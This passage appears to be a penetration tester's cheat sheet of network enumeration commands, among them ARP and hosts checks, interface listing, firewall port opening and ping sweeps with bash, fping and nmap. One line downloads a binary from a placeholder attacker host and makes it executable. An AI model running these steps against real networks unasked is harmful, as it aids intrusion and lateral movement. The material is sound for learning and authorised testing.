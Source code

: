 check the ARP cache of the machine (Windows and Linux):

```bash
arp -a
```

Find static mappings Linux:

```bash
cat /etc/hosts
```

Find static mappings Windows:

```bash
C:\Windows\System32\drivers\etc\hosts
```

Windows list ip configuration of all interfaces

```bash
ipconfig /all
```

Centos specifically: Allow a port to open with firewall-cmd

```bash
firewall-cmd --zone=public --add-port 15070/tcp
```

Linux reading the resolv.conf file:

```bash
nmcli dev show
```

Download static binary from host with curl:

```bash
curl ATTACKING_IP/nmap-USERNAME -o /tmp/nmap-USERNAME && chmod +x /tmp/nmap-USERNAME
```

Static binaries:

[https://github.com/andrew-d/static-binaries](https://github.com/andrew-d/static-binaries)

Bash one-liner ping sweep:

```bash
for i in {1..255}; do (ping -c 1 192.168.1.${i} | grep "bytes from" &); done
```

Ping sweep with fping:

```bash
fping -a -g 10.10.10.0/24 2>/dev/null
```

Ping sweep with Nmap:

```bash
nmap -sn 10.10.10.0/24
```

IP route via a other router:
